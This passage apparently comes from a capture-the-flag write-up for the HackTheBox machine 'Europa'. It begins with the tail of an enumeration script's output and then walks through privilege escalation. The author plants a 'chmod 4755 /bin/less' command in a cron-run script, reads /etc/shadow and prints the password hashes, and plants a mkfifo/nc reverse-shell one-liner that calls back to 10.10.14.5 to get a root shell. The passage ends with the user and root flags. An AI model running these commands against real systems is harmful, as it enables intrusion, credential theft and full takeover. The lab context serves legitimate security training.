-rw-rw-r-- 1 www-data www-data 2.0K Apr  4  2017 dataTables.bootstrap4.min.js
-rw-rw-r-- 1 www-data www-data 4.3K Apr  4  2017 dataTables.foundation.js
-rw-rw-r-- 1 www-data www-data 2.1K Apr  4  2017 dataTables.foundation.min.js
-rw-rw-r-- 1 www-data www-data 4.4K Apr  4  2017 dataTables.jqueryui.js
-rw-rw-r-- 1 www-data www-data 2.6K Apr  4  2017 dataTables.jqueryui.min.js
-rw-rw-r-- 1 www-data www-data 4.7K Apr  4  2017 dataTables.material.js
-rw-rw-r-- 1 www-data www-data 2.1K Apr  4  2017 dataTables.material.min.js
-rw-rw-r-- 1 www-data www-data 5.0K Apr  4  2017 dataTables.semanticui.js
-rw-rw-r-- 1 www-data www-data 2.2K Apr  4  2017 dataTables.semanticui.min.js
-rw-rw-r-- 1 www-data www-data 4.6K Apr  4  2017 dataTables.uikit.js
-rw-rw-r-- 1 www-data www-data 2.3K Apr  4  2017 dataTables.uikit.min.js
-rw-rw-r-- 1 www-data www-data 437K Apr  4  2017 jquery.dataTables.js
-rw-rw-r-- 1 Can we read/write sensitive files:
-rw-r--r-- 1 root root 1624 Apr 18  2017 /etc/passwd
-rw-r--r-- 1 root root 802 Apr 18  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1066 May 12  2017 /etc/shadow


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 191 Jan 19  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 1371 Jan 28  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 6816 Nov 30  2016 /etc/overlayroot.conf
-rw-r--r-- 1 root root 7788 Apr 18  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 144 Apr 18  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 350 Apr 18  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 100 Nov 25  2015 /etc/sos.conf
-rw-r--r-- 1 root root 3028 Feb 15  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Feb 15  2017 .
drwxr-xr-x 14 root root 4096 Apr 18  2017 ..


### SCAN COMPLETE ####################################
www-data@europa:/$
```


```sh
www-data@europa:/$ cd /var/www/cronjobs/
www-data@europa:/var/www/cronjobs$ ls
clearlogs
www-data@europa:/var/www/cronjobs$ cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
www-data@europa:/var/www/cronjobs$ cat /var/www/cmd/logcleared.sh
cat: /var/www/cmd/logcleared.sh: No such file or directory
www-data@europa:/var/www/cronjobs$ cd /var/www
www-data@europa:/var/www$ ls -lah
total 24K
drwxr-xr-x  6 root root     4.0K May 12  2017 .
drwxr-xr-x 14 root root     4.0K Apr 18  2017 ..
drwxr-xr-x  7 root root     4.0K Jul 27 01:28 admin
drwxrwxr-x  2 root www-data 4.0K May 12  2017 cmd
drwxr-xr-x  2 root root     4.0K Jun 23  2017 cronjobs
drwxr-xr-x  2 root root     4.0K Jul 27 01:36 html
www-data@europa:/var/www$
```

```sh
www-data@europa:/var/www/cmd$ echo "chmod 4755 /bin/less" > logcleared.sh
www-data@europa:/var/www/cmd$ ls -l
total 4
-rw-rw-rw- 1 www-data www-data 21 Jan 24 23:49 logcleared.sh
www-data@europa:/var/www/cmd$ chmod +x logcleared.sh
www-data@europa:/var/www/cmd$ date
Wed Jan 24 23:49:19 EET 2018
www-data@europa:/var/www/cmd$ ls -l /bin/less
ls -l /bin/less
-rwxr-xr-x 1 root root 170728 Apr  5  2017 /bin/less
www-data@europa:/var/www/cmd$ date
Wed Jan 24 23:50:20 EET 2018
www-data@europa:/var/www/cmd$ ls -l /bin/less
-rwsr-xr-x 1 root root 170728 Apr  5  2017 /bin/less
www-data@europa:/var/www/cmd$ /bin/less /etc/shadow
/bin/less /etc/shadow
WARNING: terminal is not fully functional
/etc/shadow  (press RETURN)
root:$6$sRfDchFi$OfDFR4sk3PtcbwDnQTW3Gt2EptnXmLZh4r6acXGuOB.Shcl3Q81IDA4yp4YPuR.xBoGlHpCkDaOO93sYk/1i90:17298:0:99999:7:::
daemon:*:17212:0:99999:7:::
bin:*:17212:0:99999:7:::
sys:*:17212:0:99999:7:::
sync:*:17212:0:99999:7:::
games:*:17212:0:99999:7:::
man:*:17212:0:99999:7:::
lp:*:17212:0:99999:7:::
mail:*:17212:0:99999:7:::
news:*:17212:0:99999:7:::
uucp:*:17212:0:99999:7:::
proxy:*:17212:0:99999:7:::
www-data:*:17212:0:99999:7:::
backup:*:17212:0:99999:7:::
list:*:17212:0:99999:7:::
irc:*:17212:0:99999:7:::
gnats:*:17212:0:99999:7:::
nobody:*:17212:0:99999:7:::
systemd-timesync:*:17212:0:99999:7:::
systemd-network:*:17212:0:99999:7:::
systemd-resolve:*:17212:0:99999:7:::
systemd-bus-proxy:*:17212:0:99999:7:::
syslog:*:17212:0:99999:7:::
_apt:*:17212:0:99999:7:::
lxd:*:17274:0:99999:7:::
mysql:!:17274:0:99999:7:::
messagebus:*:17274:0:99999:7:::
uuidd:*:17274:0:99999:7:::
dnsmasq:*:17274:0:99999:7:::
sshd:*:17274:0:99999:7:::
john:$6$RlPzzei1$eEH5coKjW9kDb2hm4etG/D9zkWxdJ26C7yFv0.yrz8gi/TRd7uo9t0Zn74dP36Q3sNcYjS1RtPAu7qy78pom01:17274:0:99999:7:::
/etc/shadow (END)
(END)
www-data@europa:/var/www/cmd$
```

[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 50001 >/tmp/f
```

```sh
www-data@europa:/var/www/cmd$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 50001 >/tmp/f" > logcleared.sh
www-data@europa:/var/www/cmd$ chmod +x logcleared.sh
www-data@europa:/var/www/cmd$ ls -l logcleared.sh
-rwxrwxrwx 1 www-data www-data 79 Jan 24 23:54 logcleared.sh
www-data@europa:/var/www/cmd$ date
Wed Jan 24 23:54:32 EET 2018
www-data@europa:/var/www/cmd$
```

```sh
root@kali:~/europa# nc -nlvp 50001
listening on [any] 50001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.22] 36558
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -l
total 4
-r-------- 1 root root 33 Jun 23  2017 root.txt
```

```sh
# cat root.txt
7f19438b27578e4fcc8bef3a029af5a5
#
```

```sh
www-data@europa:/home/john$ cat user.txt
cat user.txt
2f8d40cc05295154a9c3452c19ddc221
www-data@europa:/home/john$
```